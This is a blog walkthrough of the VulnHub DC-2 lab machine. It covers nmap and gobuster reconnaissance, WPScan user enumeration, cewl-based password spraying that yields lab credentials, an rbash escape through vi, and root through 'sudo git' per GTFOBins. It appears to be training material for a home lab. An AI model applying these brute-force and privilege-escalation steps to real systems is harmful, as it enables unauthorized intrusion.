<nav style="text-align:right; font-size:0.9rem; margin-bottom:20px;">
  <a href="index.html"> Home</a> |
  <a href="/blog.html">Blog</a> |
  <a href="/contact.html">Contact</a> |
  <a href="/resume.html" target="_blank">Resume</a>

</nav>

---
# DC:2 Walkthrough

### Summary
_My security assessment of the DC-2 system identified several interconnected weaknesses that allowed an attacker to gain complete control of the server. Key issues included outdated WordPress components, weak user credentials, a restricted shell that was easily bypassed, and overly permissive sudo rights that enabled root-level command execution. By leveraging these vulnerabilities in sequence, I progress from external reconnaissance to full root compromise. These findings highlight the importance of enforcing strong authentication, maintaining updated software, and applying strict privilege controls._ 

*Published on November 12, 2025 by **Ewan Oleghe**.*

---

## Introduction

 Executed a complete compromise of <a href="https://www.vulnhub.com/entry/dc-2,311/" target="_blank">VulnHub **DC-2**</a> with methodical, reproducible techniques and artifacted evidence. Converted the offensive findings into practical detections, hardening guidance, and IR playbooks to help SOCs detect and respond.  

---

### Set up.
Deployed DC-2 and Kali in my home lab on VirtualBox host-only networking to enable VM-to-VM communication while avoiding external exposure.

## Reconnaissance / Enumeration

### Nmap Scan.
With connectivity verified, Nmap was used for enumeration to identify open ports, services, and potential vulnerabilities on the DC-1 machine. Using targeted scanning options allowed for efficient information gathering without generating excessive network noise.

-  Scan for open ports.
```bash
### bash
### Nmap Scan
nmap -T3 -n -Pn -p- 192.168.78.106

```
<ul style="font-size:70%">
  <li>-T3 : Timing template for moderate speed.</li>
  <li>-n : Disables DNS resolution to reduce unnecessary traffic.</li>
  <li>-Pn : Skips host discovery and treats the target as online.</li>
  <li>-p- : Scans all 65,535 TCP ports, instead of a limited set.</li>
</ul>


Port 80 and 7744 are open.

### Web Enumeration.
1. Add DC-2 to /etc/hosts to enable the host IP resolve to the name dc-2
   
   ```bash
   ### Bash
   sudo nano /etc/hosts

   ###
   # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters

    192.168.78.106 dc-2~
    ```
2.  Accessing the web server on port 80. The Navigation menu revealed the next step. While the footer text tells me the site runs on WordPress 



Since no login page is visable, I used GoBuster a Directory brute-forcing tool to discover hidden directories, files, and parameters.

```bash
### Bash
gobuster dir -u http://dc-2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


- **Summary of Findings**
The results revealed the WordPress login page at '/wp-admin which redirects to /wp-login.php.
#
- **Authentication Attack**
Since the site runs on WordPress, I attempted to enumerate user credentials using 'WPScan'

```bash
### Bash
wpscan --url http://dc-2/ --enumerate u
```


The scan revealed three users named 'admin', 'jerry' and 'tom'. Next, I performed a brute-force attack to guess the password for each user using a custom password list (**Recall** from Flag 1: 'Your usual wordlist probably won't work, so instead maybe you  just need to be Cewl).

```bash
### Bash
# 1.  Create a user list
echo -e "admin\njerry\ntom" > users.txt

# 2. Generate password list from common words on the website
cewl http://dc-2/ -w passwords.txt

# 3. Count the number of password generated
wc -l passwords.txt
# 238 passwords.txt

# 4. View the password list
cat passwords.txt
```

**Password Spraying**
WPScan’s brute-force module was used to carry out a password spraying assessment.


This method resulted in the discovery of two valid credential pairs: jerry:adipiscing and tom:parturient. These credentials were then used to continue with further access enumeration.

Using Jerry’s credentials, I logged into the admin panel and found a post titled “flag 2,” which hinted at another entry point.



## SSH ACCESS
The initial Nmap scan revealed that SSH was accessible on port 7744. I then attempted to access SSH by leveraging the compromised credentials obtained during the password attack. Only Tom’s credentials were valid for SSH access; authentication with Jerry’s account failed.

```bash
### Bash
ssh tom@dc-2 -p 7744
```


Upon successful login, I found myself in Tom's home directory. I then proceeded to enumerate the system for potential privilege escalation vectors.
```bash
### Bash
#.1. List all files in tom's dir
ls -la

#.2. View content of flag3.txt
cat flag3.txt
```


<ul style="font-size:70%">
  <li>The cat command was unavailable because the session was restricted by rbash.</li>
  <li>To proceed, I had to escape the restricted shell and spawn a proper TTY.</li>
</ul>

### rbash to TTY SHELL

-  **echo $PATH** shows the directories the shell searches for executable commands. In a restricted 'rbash' shell, this list may be limited, controlling which commands can be run.

```bash
### Bash
echo $PATH
```


**Break out of rbash to a proper TTY shell using vi**
<ul style="font-size:90%">
  <li>Open 'vi' or vim</li>
  <li> <code>:set shell=/bin/bash</code>: Sets the shell to bash within vim.</li>
   <li> <code>:shell</code>: Executes the bash shell.</li>
</ul>





**Set the environment variables to BASH**
<code>export SHELL=/bin/bash</code>: Sets the default shell to bash.
<code>export PATH=/bin:/usr/bin</code>: Sets the PATH environment variable.


**Read the flag3.txt**
```bash
### Bash
cat flag3.txt
```


## Privilege Escalation

I switched to 'jerry's account, I enumerated the files and subdirectories located in his home directory. The directory list contains 'flag4.txt'



Flag4 indicated a potential Git-based escalation path. Enumeration of 'jerry's sudo permission conformed that he could run Git as a root user.
```bash
### Bash
sudo -l
```


**Escalate to root**
- I used GTFOBins to bypass local security restrictions and escalate to root
<code># Git > Sudo </code>
<code>sudo git -p help config </code>: Runs Git as root with the -p option to preserve the
<code>!/bin/sh </code>: Breaks out to a bash shell.




- **After gaining root, i <code>cd /root</code>** 
- **listed the root directories and files <code> ls -la</code>**
- **viewed the contents of the final-flag.txt <code>cat final-flag.txt</code>**


## Conclusion

The DC-2 machine was compromised through a series of interconnected security weaknesses, including outdated WordPress components, weak credentials obtained through brute-forcing, an ineffective restricted shell (rbash) that was easily bypassed, and insecure sudo permissions allowing unrestricted Git execution as root. Through systematic reconnaissance, enumeration, credential harvesting, shell escape, and privilege escalation techniques, full root access was achieved. This assessment demonstrates how multiple minor misconfigurations, when combined, can lead to complete system compromise and reinforces the need for disciplined security hardening and continuous monitoring.


